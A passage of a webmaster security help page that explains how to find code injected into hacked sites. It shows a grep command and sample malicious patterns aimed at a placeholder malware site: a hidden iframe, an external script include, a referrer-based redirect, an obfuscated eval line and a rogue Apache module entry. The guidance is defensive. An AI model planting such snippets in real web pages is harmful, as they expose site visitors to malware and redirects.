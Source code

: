 #### Fix the issue

Either update each infected database record or you can restore your last known database backup.

### Code injection

{% YouTube "8SX2Ks2XOgo" %}

Pages on your site were modified to include malicious code, such as an iframe to a malware attack site.

#### Diagnosis

Visit some of the example URLs shown in the Security Issues report with
      cURL or wGet and examine for suspicious code.
      Injected code can take many types, and can be hard to find. It may be
      helpful to search for words like "iframe" to find iframe code.
          Other helpful keywords are "script", "eval", and "unescape."
          For example, to search all files for "iframe" on Unix-based systems:

```shell
$grep -irn "iframe" ./ | less</pre>
```

Here are some common malware patterns to look for.

An iframe that loads a malicious site:

```html
&lt;iframe frameborder="0" height="0" src="http://&lt;<strong><em>_malware-site_</em></strong>&gt;/path/file"
  style="display:none" width="0"&gt;&lt;/iframe&gt;
```

JavaScript or another scripting language that calls and runs scripts from an attack site:

```html
&lt;script type='text/javascript' src='http://&lt;<em><strong>_malware-site_</strong></em>&gt;/js/x55.js'&gt;&lt;/script&gt;
```

Scripting that redirects the browser to an attack site:

```html
&lt;script&gt;
  if (document.referrer.match(/google\.com/)) {
    window.location("http://&lt;<em><strong>_malware-site_</strong></em>&gt;/");
  }
&lt;/script&gt;
```

Malicious code that's obfuscated to avoid detection:

```js
eval(base64_decode("aWYoZnVuaauUl+hasdqetiDi2iOwlOHTgs+slgsfUNlsgasdf"));
```

Shared object files designed to randomly write harmful code to otherwise benign scripts:

```txt
#httpd.conf modified by the hacker
LoadModule harmful_module modules/mod_harmful.so
AddModule mod_harmful.c
```
